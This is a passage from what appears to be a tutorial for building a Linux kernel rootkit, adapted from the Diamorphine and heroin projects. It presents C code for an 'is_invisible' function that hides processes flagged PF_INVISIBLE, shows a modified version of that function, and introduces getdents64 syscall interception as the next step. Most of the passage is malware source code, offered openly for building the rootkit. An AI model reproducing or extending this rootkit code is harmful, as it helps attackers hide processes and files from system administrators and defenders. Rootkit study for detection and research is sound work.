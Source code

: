 ```c
}
```
   This is basically a for loop macro. I got this expression from  [diamorphine](https://github.com/m0nad/Diamorphine/) project. Then searched it in [bootlin](https://elixir.bootlin.com/linux/v5.11/source/include/linux/sched/signal.h#L601).
                    
  2. Visit: [repo](https://github.com/reveng007/reveng_rtkit/blob/055b7dce57cf1317f13fb3bd141e21c3ec82c5dc/kernel_src/include/hook_syscall_helper.h#L118).\
   We will now make a function to hide those directories responsible for corresponding `pid`. Got this portion from [heroin](https://web.archive.org/web/20140701183221/https://www.thc.org/papers/LKM_HACKING.html#A-b) and [diamorphine](https://github.com/m0nad/Diamorphine/) project.
```c
/* Here, -"&gt;" : -">" and "&amp;" : "&" */

#define PF_INVISIBLE 0x10000000
                   
int is_invisible(pid_t pid)
{
	struct task_struct *task;

	if((task = find_task(pid)) == NULL)
		return(0);

	if(task-&gt;flags &amp; PF_INVISIBLE)
		return(1);

	return(0);
}
```
   I made some changes,
```c
 #define PF_INVISIBLE 0x10000000

static int is_invisible(pid_t pid)
{
	struct task_struct *task = find_task(pid);

	if (!pid)
	{
		return 0;
	}

	if (!task)
	{
		return 0;
	}
	if (task->flags & PF_INVISIBLE)
	{
		return 1;
	}
	return 0;
}
```
   Visit: [repo](https://github.com/reveng007/reveng_rtkit/blob/4eb75d38eee64a1d804e49220c9cbff092671faf/kernel_src/include/hook_syscall_helper.h#L137)\
    Now, comes the last and final part: ***getdents64*** syscall interception.
